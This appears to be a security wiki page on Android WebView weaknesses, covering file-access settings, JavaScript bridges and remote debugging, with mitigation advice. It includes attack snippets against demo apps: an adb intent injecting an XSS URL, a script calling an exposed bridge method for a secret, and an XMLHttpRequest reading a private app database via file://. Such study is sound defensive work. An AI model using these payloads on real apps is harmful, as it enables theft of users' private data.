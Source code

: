 # Webview Attacks

{{#include ../../banners/hacktricks-training.md}}

## Guide on WebView Configurations and Security

### Overview of WebView Vulnerabilities

A critical aspect of Android development involves the correct handling of WebViews. This guide highlights key configurations and security practices to mitigate risks associated with WebView usage.

![WebView Example](<../../images/image (1190).png>)

### **File Access in WebViews**

By default, WebViews permit file access. This functionality is controlled by the `setAllowFileAccess()` method, available since Android API level 3 (Cupcake 1.5). Applications with the **android.permission.READ_EXTERNAL_STORAGE** permission can read files from external storage using a file URL scheme (`file://path/to/file`).

#### **Deprecated Features: Universal and File Access From URLs**

- **Universal Access From File URLs**: This deprecated feature allowed cross-origin requests from file URLs, posing a significant security risk due to potential XSS attacks. The default setting is disabled (`false`) for apps targeting Android Jelly Bean and newer.
  - To check this setting, use `getAllowUniversalAccessFromFileURLs()`.
  - To modify this setting, use `setAllowUniversalAccessFromFileURLs(boolean)`.
- **File Access From File URLs**: This feature, also deprecated, controlled access to content from other file scheme URLs. Like universal access, its default is disabled for enhanced security.
  - Use `getAllowFileAccessFromFileURLs()` to check and `setAllowFileAccessFromFileURLs(boolean)` to set.

#### **Secure File Loading**

For disabling file system access while still accessing assets and resources, the `setAllowFileAccess()` method is used. With Android R and above, the default setting is `false`.

- Check with `getAllowFileAccess()`.
- Enable or disable with `setAllowFileAccess(boolean)`.

#### **WebViewAssetLoader**

The **WebViewAssetLoader** class is the modern approach for loading local files. It uses http(s) URLs for accessing local assets and resources, aligning with the Same-Origin policy, thus facilitating CORS management.

### loadUrl

This is a common function used to load arbitrary URLs in a webviwe:

```java
webview.loadUrl("<url here>")
```

Ofc, a potential attacker should never be able to **control the URL** that an application is going to load.

### **JavaScript and Intent Scheme Handling**

- **JavaScript**: Disabled by default in WebViews, it can be enabled via `setJavaScriptEnabled()`. Caution is advised as enabling JavaScript without proper safeguards can introduce security vulnerabilities.
- **Intent Scheme**: WebViews can handle the `intent` scheme, potentially leading to exploits if not carefully managed. An example vulnerability involved an exposed WebView parameter "support_url" that could be exploited to execute cross-site scripting (XSS) attacks.

![Vulnerable WebView](<../../images/image (1191).png>)

Exploitation example using adb:

```bash
adb.exe shell am start -n com.tmh.vulnwebview/.SupportWebView –es support_url "https://example.com/xss.html"
```

### Javascript Bridge

A feature is provided by Android that enables **JavaScript** in a WebView to invoke **native Android app functions**. This is achieved by utilizing the `addJavascriptInterface` method, which integrates JavaScript with native Android functionalities, termed as a _WebView JavaScript bridge_. Caution is advised as this method allows all pages within the WebView to access the registered JavaScript Interface object, posing a security risk if sensitive information is exposed through these interfaces.

- **Extreme caution is required** for apps targeting Android versions below 4.2 due to a vulnerability allowing remote code execution through malicious JavaScript, exploiting reflection.

#### Implementing a JavaScript Bridge

- **JavaScript interfaces** can interact with native code, as shown in the examples where a class method is exposed to JavaScript:

```javascript
@JavascriptInterface
public String getSecret() {
    return "SuperSecretPassword";
};
```

- JavaScript Bridge is enabled by adding an interface to the WebView:

```javascript
webView.addJavascriptInterface(new JavascriptBridge(), "javascriptBridge")
webView.reload()
```

- Potential exploitation through JavaScript, for instance, via an XSS attack, enables the calling of exposed Java methods:

```html
<script>
  alert(javascriptBridge.getSecret())
</script>
```

- To mitigate risks, **restrict JavaScript bridge usage** to code shipped with the APK and prevent loading JavaScript from remote sources. For older devices, set the minimum API level to 17.

### Reflection-based Remote Code Execution (RCE)

- A documented method allows achieving RCE through reflection by executing a specific payload. However, the `@JavascriptInterface` annotation prevents unauthorized method access, limiting the attack surface.

### Remote Debugging

- **Remote debugging** is possible with **Chrome Developer Tools**, enabling interaction and arbitrary JavaScript execution within the WebView content.

#### Enabling Remote Debugging

- Remote debugging can be enabled for all WebViews within an application by:

```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
    WebView.setWebContentsDebuggingEnabled(true);
}
```

- To conditionally enable debugging based on the application's debuggable state:

```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
    if (0 != (getApplicationInfo().flags & ApplicationInfo.FLAG_DEBUGGABLE))
    { WebView.setWebContentsDebuggingEnabled(true); }
}
```

## Exfiltrate arbitrary files

- Demonstrates the exfiltration of arbitrary files using an XMLHttpRequest:

```javascript
var xhr = new XMLHttpRequest()
xhr.onreadystatechange = function () {
  if (xhr.readyState == XMLHttpRequest.DONE) {
    alert(xhr.responseText)
  }
}
xhr.open(
  "GET",
  "file:///data/data/com.authenticationfailure.wheresmybrowser/databases/super_secret.db",
  true
)
xhr.send(null)
```

## References

- [https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html](https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html)
- [https://github.com/authenticationfailure/WheresMyBrowser.Android](https://github.com/authenticationfailure/WheresMyBrowser.Android)
- [https://developer.android.com/reference/android/webkit/WebView](https://developer.android.com/reference/android/webkit/WebView)
- [https://medium.com/@justmobilesec/deep-links-webviews-exploitations-part-ii-5c0b118ec6f1](https://medium.com/@justmobilesec/deep-links-webviews-exploitations-part-ii-5c0b118ec6f1)
- [https://www.justmobilesec.com/en/blog/deep-links-webviews-exploitations-part-I](https://www.justmobilesec.com/en/blog/deep-links-webviews-exploitations-part-I)

{{#include ../../banners/hacktricks-training.md}}
